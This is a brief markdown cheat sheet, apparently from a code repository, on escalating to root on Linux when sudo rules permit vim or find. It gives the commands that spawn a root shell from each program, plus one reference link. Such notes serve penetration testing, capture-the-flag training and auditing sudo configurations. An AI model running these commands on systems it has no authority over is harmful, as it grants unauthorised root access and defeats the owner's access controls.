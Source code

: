 # Restricted Sudo: Privilege Escalation

1. If sudo allows **vim**

        sudo -l
        sudo vim <target_filename>
        :!/bin/bash

2. If sudo allows **find**

        sudo -l
        sudo find / -exec /bin/bash \;

## References

* https://linuxaria.com/howto/linux-shell-how-to-use-the-exec-option-in-find-with-examples